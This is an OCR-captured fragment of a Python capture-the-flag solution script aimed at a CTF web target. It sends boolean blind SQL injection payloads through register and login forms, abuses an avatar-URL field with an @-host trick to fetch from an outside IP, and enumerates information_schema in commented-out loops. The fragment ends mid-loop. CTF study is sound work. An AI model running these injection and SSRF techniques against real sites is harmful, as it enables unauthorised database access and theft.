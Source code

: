 ```

	print code_string

def register(payload):

	url1 = "http://web.l-ctf.com:55533/check.php"

	data = {"user": payload, "pass": "dsa", "typer": "0", "register": "%E6%B3%A8%E5%86%8C"}

	r = requests.post(url1,data = data)


def login(payload):

	s = requests.Session()
	url1 = "http://web.l-ctf.com:55533/check.php"
	url2 = "http://web.l-ctf.com:55533/save.php"
	url3 = "http://web.l-ctf.com:55533/ucenter.php"

	data = {"user": payload, "pass": "dsa", "typer": "0", "login": "%E7%99%BB%E9%99%86"}
	r = s.post(url1, data = data)
	Session = r.headers['Set-Cookie']

	data2 = {"headpic":"http://web.l-ctf.com:55533@115.28.78.16/ddog.php"}
	r = s.post(url2, data = data2, cookies={"PHPSESSID": Session[10:-8]})

	r = s.get(url3, cookies={"PHPSESSID": Session[10:-8]})

	bs0bj = BeautifulSoup(r.text, "lxml")
	content = base64.b64decode(bs0bj.img['src'][23:])

	if len(content) > 0:
		return True
	else:
		return False


def test(payload):

	payload = payload.replace(" ", "/**/")
	print payload
	register(payload)
	if login(payload):
		return False
	else:
		return True

def ppayload():
	# for i in xrange(30):
	# 	payload = "nishigeshenmegui' or ((SELECT COUNT(*) from information_schema.SCHEMATA limit 0,1)>" + str(i) + ")#"

	# 	if test(payload):
	# 		database_number = i
	# 	 	break
		
	# print "database_number:" + str(database_number)


	database_number = 2
	# for i in range(1,2):
	# 	for j in xrange(50):
```